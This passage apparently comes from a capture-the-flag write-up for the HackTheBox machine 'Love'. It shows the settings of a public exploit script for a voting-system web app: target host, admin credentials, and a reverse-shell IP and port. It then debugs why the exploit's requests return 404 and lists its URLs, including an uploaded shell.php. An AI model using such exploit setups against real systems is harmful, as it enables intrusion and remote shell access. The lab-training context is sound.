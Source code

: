 

    # --- Edit your settings here ----
    IP = "love.htb" # Website's URL     
    USERNAME = "admin" #Auth username 
    PASSWORD = "@LoveIsInTheAir!!!!" # Auth Password 
    REV_IP = "10.10.14.6" # Reverse shell IP   
    REV_PORT = "443" # Reverse port  
    # --------------------------------



I ran the exploit, and nothing happened:



    oxdf@parrot$ python 49445.py 
    Start a NC listener on the port you choose above and run...



#### Troubleshooting

Looking at the Python script, it is using `requests` to send HTTP
requests to the website. At the start, it creates a session, which will
hold things like cookies to enable things like logging in. It stores it
in the global variable `s`. I'll add Burp as a proxy to that session so
that I can see the requests it is sending and potentially see what's
wrong:



    s = requests.Session()
    s.proxies = {'http': 'http://127.0.0.1:8080'}



On running the script again, I see three requests, all of which are
returning 404:

![](/img/image-20210721143836401.png)

It's not finding any of those pages. Above, I found the admin login page
at `/admin/login.php`, but for some reason this script is adding
`/votingsystem` before that. Right under where I configured the
settings, there's a handful of URLs defined:



    INDEX_PAGE = f"http://{IP}/votingsystem/admin/index.php"    
    LOGIN_URL = f"http://{IP}/votingsystem/admin/login.php"
    VOTE_URL = f"http://{IP}/votingsystem/admin/voters_add.php"
    CALL_SHELL = f"http://{IP}/votingsystem/images/shell.php" 

